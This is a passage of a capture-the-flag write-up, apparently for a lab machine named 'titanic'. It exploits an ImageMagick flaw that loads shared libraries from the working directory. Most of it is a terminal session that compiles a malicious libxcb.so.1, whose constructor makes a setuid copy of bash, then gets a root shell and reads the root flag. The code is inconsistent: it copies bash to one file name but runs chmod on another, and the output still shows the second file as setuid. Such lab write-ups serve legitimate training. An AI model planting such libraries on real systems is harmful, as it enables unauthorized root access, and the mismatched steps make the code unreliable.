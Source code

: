 This version has a [vulnerability](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), which is the way it is compiled. This version includ the current working directory in the search path for configuration files and shared libraries. 

In the POC explains that we neet to write a shared library to the same directory named `libxcb.so.1`, Magick will load this library. We can write instructions to make a bash with root permissions(the script runs as root) and gain access like this user. 


```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/dano");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls -l /tmp
total 1396
-rwsrwsrwx 1 root root 1396520 Jun 26 08:26 dano
drwx------ 3 root root    4096 Jun 26 03:08 snap-private-tmp
drwx------ 3 root root    4096 Jun 26 03:08 systemd-private-538f5438731f483ab42efeba5984160d-apache2.service-8Rtb7J
drwx------ 3 root root    4096 Jun 26 03:08 systemd-private-538f5438731f483ab42efeba5984160d-ModemManager.service-d2OjUC
drwx------ 3 root root    4096 Jun 26 03:08 systemd-private-538f5438731f483ab42efeba5984160d-systemd-logind.service-NsxgUj
drwx------ 3 root root    4096 Jun 26 03:07 systemd-private-538f5438731f483ab42efeba5984160d-systemd-resolved.service-1CzEjT
drwx------ 3 root root    4096 Jun 26 03:07 systemd-private-538f5438731f483ab42efeba5984160d-systemd-timesyncd.service-lftLz4
drwx------ 3 root root    4096 Jun 26 04:43 systemd-private-538f5438731f483ab42efeba5984160d-upower.service-iv4C85
drwx------ 2 root root    4096 Jun 26 03:16 vmware-root_617-4022243191
developer@titanic:/opt/app/static/assets/images$ /tmp/dano -p
dano-5.1# whoami
root
dano-5.1# cat /root/root.txt
6c076097934072b80517d248eb8b28c2
dano-5.1#
```
